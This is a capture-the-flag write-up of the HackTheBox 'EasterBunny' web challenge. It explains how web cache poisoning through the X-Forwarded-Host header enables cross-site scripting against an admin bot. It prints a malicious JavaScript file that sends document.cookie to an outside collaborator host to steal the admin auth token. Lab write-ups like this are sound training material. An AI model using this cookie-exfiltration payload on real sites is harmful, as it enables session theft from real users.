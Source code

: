 ```yaml
---
layout: single
title: EasterBunny
excerpt: "It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching!"
date: 2022-8-28
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - web
tags:  
  - web cache poisoning
  - cross site scripting
  - ip bypass
  - resource hijacking
---
```



It's that time of the year again! Write a letter to the Easter bunny and make your wish come true! But be careful what you wish for because the Easter bunny's helpers are watching! <br>

<h4 align="center">
<img src="https://user-images.githubusercontent.com/45040001/187103435-e7a41ec1-67d8-491a-9572-a340b96f265e.png">
</h4>


The EasterBunny is a easy challenge from hackthebox where you can learn a lot from it. Lets explain little bit the steps but with words, the first step is to identify web cache poisoning vulnerability and follow [web cache poisoning](https://portswigger.net/research/practical-web-cache-poisoning) methodology.
<br>
<br>
Let's start where the flag is stored.. The flag is stored at the 3rd letter which if you are not an admin you can't see and you will get an error message. Our steps is to be authenticated like a admin and get the flag.

## WCP Methodology
![image](https://user-images.githubusercontent.com/45040001/187235119-7f8f04e9-1a0e-4899-b623-109aae0d0ceb.png)

### Detect unkeyed input
We can detect & inject into cache a random string just using `X-Forwarded-Host` HTTP Header. Using this header we can perform a xss attack to steal some cookies from the user in our situation from `bot.js`.<br>
![detect_unkeyd_input](https://user-images.githubusercontent.com/45040001/187235463-af6684d1-b75f-422d-b08f-7515db78026a.png)
<br>
So we can see our unkeyed input injects 3 attributes and they are:
- /static/main.css
- `<base href="unkeyed input:port/static" />`
- /static/viewletter.js

When you see a javascript file like the `viewletter.js` immediately you think how you can perform a xss attack right?

![unkeyd_input](https://user-images.githubusercontent.com/45040001/187235510-121c99c8-0160-463d-b4e2-c95af06b362a.png)

![viewletter_javascript](https://user-images.githubusercontent.com/45040001/187235528-15b5cbc5-faea-4430-bef9-f7891538de51.png)

### Perform XSS attack 
For exploitation part first of all we need a HTTP server(free solution ngrok) and create a directory tree like that:
![folder_tree](https://user-images.githubusercontent.com/45040001/187313837-93762db5-ebfc-4c99-9f69-132ce594b72c.png)
<br>
And the most important our malicious `viewletter.js` hosted in our http server where with this script we can steal the auth token and get the flag.
```javascript
//viewletter.js
fetch('http://4w1j76r5ydqthsa2yt357tr45vbmzb.burpcollaborator.net/', {
		    method: 'POST',
		    body: document.cookie
		    });
```
The challenge source code has a file called `authorisation.js` where somebody can see how `admin`  authorization works.<br>
So if someone wants to be authenticated like a admin he must be from localhost and he must know the `authSecret` which is a random value.
```javascript
const authSecret = require('crypto').randomBytes(69).toString('hex');

const isAdmin = (req, res) => {
  return req.ip === '127.0.0.1' && req.cookies['auth'] === authSecret;
};

module.exports = {
  authSecret,
  isAdmin,
};
```
So far so good.. But how will get the `authSecret` from admin? we should steal the cookies from him(or from `bot.js`)
```javascript
//part from bot.js
await page.setCookie({
            name: 'auth',
            value: authSecret,
            domain: '127.0.0.1',
        });
```

Now lets take a look how the bot visiting works. At source code of `routes.js` in the `/submit` route we can see the bot visit the last inserted letter but with a little bit different host, pay attention at `127.0.0.1`
```javascript
//part of routes.js
botVisiting = true;
await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);
botVisiting = false;
```







[ip bypass headers](https://gist.githubusercontent.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1/raw/339dad3040fd1a967588edf341eb72b033a9d9fe/gistfile1.txt)

